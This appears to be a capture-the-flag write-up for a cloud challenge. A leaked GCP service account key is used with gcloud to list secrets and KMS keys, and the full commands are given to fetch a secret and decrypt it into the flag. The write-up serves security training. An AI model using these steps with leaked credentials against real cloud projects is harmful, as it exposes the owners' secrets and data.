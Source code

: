 #### Challenge:

Found this service account key after the results of a pen test but we are running out of time and we are looking to increase the impact of our finding. Can you get some results so we can maximise our bounty, we know there is highly *secretive* material in their Cloud Project! [legacy.json](./legacy.json ":ignore")

---

#### Solution:

Using the provided `GCP` service account key, I tried to `gcloud secrets list`. It turned out there is one called `unused_data` but it was encrypted, so I also looked at `gcloud kms list`. There was a keyring with several kms keys, but after trying all of them, the `a-silver-key` revealed the flag:

```bash
gcloud auth activate-service-account --key-file ~/Downloads/legacy.json
gcloud secrets versions access "latest" --project ductf-lost-n-found --secret unused_data | base64 -d | gcloud kms decrypt --key=a-silver-key --keyring=wardens-locks --location=australia-southeast2 --project ductf-lost-n-found --ciphertext-file=- --plaintext-file=-
```

---

<details><summary>FLAG:</summary>

```
DUCTF{its_time_to_clean_up_your_service_account_permissions!}
```

</details>
<br/>
